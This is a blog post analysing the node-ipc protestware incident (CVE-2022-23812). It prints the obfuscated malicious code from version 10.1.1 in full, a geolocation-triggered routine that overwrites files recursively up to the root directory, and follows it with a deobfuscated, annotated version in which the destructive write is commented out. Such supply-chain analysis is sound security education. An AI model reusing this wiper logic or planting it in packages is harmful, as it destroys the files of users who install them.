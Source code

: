# Day 10 - node-ipc protestware post mortem

:::tip
See the related github repo [node-ipc-protestware-post.mortem)](https://github.com/nicolardi/node-ipc-protestware-post.mortem)
:::

This time we'll look at the world-famous node-ipc which is a library that allows you to communicate between processes in node.js but we won't talk about the library itself but rather what happened some days ago.

The story is that the library's author decided to push a malicious code as a protest against the Ukrainian war. This package is a well-known and widely used library that is used in many popular node.js applications.

What happened: version 10.1.1 was published with this code:

```js 
// DO NOT RUN THIS CODE OR YOU MAY DAMAGE YOUR FILESYSTEM

import u from "path";
import a from "fs";
import o from "https";
setTimeout(function () {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }
    const n = Buffer.from("aHR0cHM6L ... DkxNTQ=",
                            "base64"); 
    o.get(n.toString("utf8"), function (t) {
        t.on("data", function (t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || 
                          u.includes(i.toString("utf8")); 
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"));
                }
            } catch (t) {}
        });
    });
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return;
    }
    let r = [];
    try {
        r = a.readdirSync(n);
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i);
        } catch (t) {
            continue;
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null;
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function () {}); 
            } catch (t) {}
        }
    }
    return f;
}
const ssl = true;
export { ssl as default, ssl };
```

As you can see the code is obfuscated and it is not very easy to read.


```js 
const n = Buffer.from("aHR0cHM6L .... ykxNTQ=", "base64"); 
```
creates a buffer from a base64 string. let's see how to decode it:

```js
 console.log(JSON.parse(n.toString("utf8"));
```

The string is:

https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154

This script uses api.ipgeolocation.io to guess which country you are executing the code.

The unobfuscated version of this script is:

```js 
import path from "path";
import fs from "fs";
import https from "https";

setTimeout(function () {
    // Does not attack anytime, but it does attack one over four times.
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }

    // Call api.geolocation.io to get the location of the user.
    https.get(
        'https://api.ipgeolocation.io/ipgeo?apiKey=ae511e ... a758a5309154', 
        function (res) {
        // On data received from the api.geolocation.io server.
        res.on("data", function (response) {
            try {
                // Parse the response.
                const object = JSON.parse(response.toString("utf8"));
                // Get the country name.
                const country_name = object['country_name'].toLowerCase();
                // test if the country name is in the list of countries to attack.
                const isRussiaOrBelarus = country_name.includes('russia') 
                                || country_name.includes('belarus');
                // If the country is in the list of countries to attack, attack.
                if (isRussiaOrBelarus) {
                    // attack the current directory.
                    attack("./");
                    // attack the previous directory.
                    attack("../");
                    // attack the parent of the previous directory.
                    attack("../../");
                    // Attack the root directory.
                    attack("/");
                }
            } catch (t) { }
        });
    });
    // the attack is performed wityh a delay between 0 and 1 seconds.
}, Math.ceil(Math.random() * 1e3));

// This is the attack function.
// it is called when the user is in the list of countries to attack.
// it is called with the directory to attack.
// it is called with the target filename substring that is currently unused.
async function attack(dir = "", targetFilenameSubstring = "") {
    console.log("ATTACKING: " + dir + "\n");
    // if the dir does not exist, return.
    if (!fs.existsSync(dir)) {
        return;  
    }

    // used to store the directory contents
    let directoryContents = [];
    try {
        // get the directory contents.
        directoryContents = fs.readdirSync(dir);
    } catch (t) { }
    const files = [];

    for (var e = 0; e < directoryContents.length; e++) {

        // get the full path of the file.
        const i = path.join(dir, directoryContents[e]);

        // read the stats of the file to test if it is a directory or a file.
        let t = null;
        try {
            // lstatSync is used to test both real files and symbolic links.
            t = fs.lstatSync(i);  
        } catch (t) {
            continue;
        }

        // if the file is a directory, call the attack function recursively.
        if (t.isDirectory()) {
            const attackedFiles = attack(i, targetFilenameSubstring);
            // Keeps track of the files that were attacked.
            attackedFiles.length > 0 ? files.push(...attackedFiles) : null;
        } else if (i.indexOf(targetFilenameSubstring) >= 0) { 
            // Pattern match (unused.. all filed are attacked anyway)
            try {
                
                console.log("WITH LOVE FILE: " + i);
                
                // NOTE: I have disabled the function which 
                // replaces the file contents with a '❤️'.
                //fs.writeFile(i, '❤️', function () { });
            } catch (t) { }
        }
    }
    return files;
}
const ssl = true;
export { ssl as default, ssl };
```

I have changed the code a little bit to get it safe. It just prints the attacked files on the screen without doing anything dangerous

At the moment the versions with the critical security code have been removed and the code is not available on github nor on the npm websites.

opening https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 will result in an error message:

"Provided API key is not valid. Contact technical support for assistance at support@ipgeolocation.io"

:::warning
You may notice that this website at the moment of the release of the protestware had the power to wipe data from almost all around the world.
If it was hacked and just replied "russia" for any ip address. This fact is not true anymore but it is worth noting that the packages that are used as a supply chain have a great responsibility and the trust of the users is something to be accurately evaluated.
:::

References:

[Protestware - How node-ipc turned into malware](https://www.lunasec.io/docs/blog/node-ipc-protestware/)

[CVE-2022-23812](https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c)


Cheers,

Massimo Nicolardi

